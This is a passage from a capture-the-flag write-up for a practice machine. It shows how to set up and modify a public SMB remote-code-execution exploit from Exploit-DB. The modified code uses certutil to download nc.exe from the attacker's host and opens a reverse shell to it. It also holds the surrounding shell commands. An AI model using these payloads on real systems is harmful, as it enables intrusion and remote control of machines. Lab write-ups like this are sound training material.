 ```bash
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Zero/Misc File]
└─$ cp /usr/share/exploitdb/exploits/windows/remote/42315.py poc.py 
```

This POC requires some external Python2 libraries to work so let's set up a virtual environment and install these libraries.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Zero/Misc File]
└─$ virtualenv --python /usr/bin/python2  env
/usr/lib/python3/dist-packages/setuptools/_distutils/cmd.py:66: SetuptoolsDeprecationWarning: setup.py install is deprecated.
<SNIP>
    added seed packages: pip==20.2.3, setuptools==44.1.1, wheel==0.35.1
  activators BashActivator,CShellActivator,FishActivator,PowerShellActivator,PythonActivator

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Zero/Misc File]
└─$ source env/bin/activate

┌──(env)─(pentester㉿kali)-[~/Desktop/HackMyVM/Zero/Misc File]
└─$ pip install impacket==0.9.20
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please <SNIP>

┌──(env)─(pentester㉿kali)-[~/Desktop/HackMyVM/Zero/Misc File]
└─$ wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/42315.py
<SNIP>
2024-10-25 00:10:31 (61.5 MB/s) - ‘42315.py’ saved [16669/16669]

┌──(env)─(pentester㉿kali)-[~/Desktop/HackMyVM/Zero/Misc File]
└─$ mv 42315.py mysmb.py
```

This POC allows us to execute commands on the target system. So we can modify it to download a payload from our attack box and execute it. We can download `nc.exe` on the target and use it to send a reverse shell to our target. First, let's start a Python server that will host `nc.exe`.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Zero/Misc File]
└─$ cp /opt/windows/nc64.exe nc.exe     

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Zero/Misc File]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... 
```

We can now modify the code by uncommenting the line that calls the `service_exec()` function and adding the command that will download `nc.exe` on the target and the one that will send us a reverse shell.
```python
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()

        print('creating file c:\\pwned.txt on the target')
        tid2 = smbConn.connectTree('C$')
        fid2 = smbConn.createFile(tid2, '/pwned.txt')
        smbConn.closeFile(tid2, fid2)
        smbConn.disconnectTree(tid2)

        #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
        service_exec(conn, r'cmd /c certutil -urlcache -split -f  http://10.0.2.16:8000/nc.exe c:\\nc.exe')
        service_exec(conn, r'cmd /c c:\\nc.exe -e cmd 10.0.2.16 1234')
```